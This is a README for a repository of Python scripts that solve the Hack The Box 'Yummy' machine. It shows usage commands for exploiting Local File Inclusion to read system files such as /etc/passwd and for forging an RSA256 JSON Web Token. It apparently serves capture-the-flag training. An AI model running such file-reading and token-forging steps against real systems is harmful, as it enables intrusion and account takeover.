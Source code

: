 # HTB Yummy

---

WriteUp: [https://gunzf0x.github.io/pentesting/posts/yummy/](https://gunzf0x.github.io/pentesting/posts/yummy/)

`Python` scripts to abuse `Local File Inclusion` (`LFI`) at [HTB Yummy](https://www.hackthebox.com/machines/yummy) to read system files.

---

## Local File Inclusion

### Usage

To use credentials with a user whose email is `gunzf0x@gunzf0x.htb`, username `gunzf0x`, password `gunzf0x123!$` and we want to read `/etc/passwd` through `LFI`, we can run:
```shell-session
❯ python3 lfi.py -e 'gunzf0x@gunzf0x.htb' -u 'gunzf0x' -p 'gunzf0x123!$' -f '/etc/passwd'
```
If we, additionally, want to also _create_ the user account at `yummy.htb` site, we can also use `--create-account` flag:
```shell-session
❯ python3 lfi.py -e 'gunzf0x@gunzf0x.htb' -u 'gunzf0x' -p 'gunzf0x123!$' -f '/etc/passwd' --create-account
```

---

## Modify JWT using RSA256
To modify the `Jason Web Token` obtained from a user using `RSA256` algorithm we can run, for example:
### Usage
```shell-session
❯ python3 modify_original_token.py -t 'eyJhbGc<SNIP>94gzOkXs'
```
Where `eyJhbGc<SNIP>94gzOkXs` is an original `JWT` extracted from our user at `yummy.htb` webpage.

